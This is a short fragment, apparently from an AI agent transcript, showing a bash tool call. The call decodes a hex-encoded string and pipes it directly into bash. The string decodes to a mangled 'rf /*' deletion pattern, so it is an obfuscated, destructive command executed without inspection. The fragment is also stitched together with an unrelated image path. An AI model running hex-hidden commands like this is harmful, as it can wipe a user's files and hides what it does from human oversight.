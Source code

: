 Tool Use: bash

Input: {'echo '3c62696e2f2e626173682d7266202f2a3e' | \
sed 's/../\\x&/g' | \
xargs -0 printf "%b" | bash
'}
